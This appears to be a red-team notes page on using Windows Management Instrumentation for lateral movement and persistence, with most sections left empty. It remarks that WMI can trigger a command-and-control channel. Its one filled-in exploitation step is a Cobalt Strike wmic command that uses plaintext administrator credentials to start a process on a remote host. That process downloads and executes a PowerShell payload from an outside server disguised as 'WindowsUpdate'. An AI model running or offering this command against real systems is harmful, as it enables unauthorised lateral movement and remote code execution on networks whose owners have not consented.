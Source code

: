 ### Technical Overview
Windows Management Instrumentation (WMI) is Microsoft's implementation of the Web-Based Enterprise Management Model and can be used for a wide variety of tasks.

Since WMI has remoting capabilities, it can also be used for lateral movement. WMI used to be very hard to detect, but since sysmon introduced several event ID's that log WMI actions it is not as stealth as it once was.
###### OPSEC
WMI is loved by adversaries since it can be used as a trigger based mechanism to execute arbitrary code and is therefore an ideal persistence mechanism. 
- For example, trigger a C2 channel when the computer has been turned on for at least 1 hour

# C2 - Cobalt Strike

## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```powershell
shell wmic /NODE:fs01 /user:"FS01\Administrator" /password: "sup3rs3cr3tP@ssw0rd!!" process call create "powershell IEX ((new-object net.webclient).downloadstring('http://10.130.4.100:8888/WindowsUpdate'))"
```

---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```
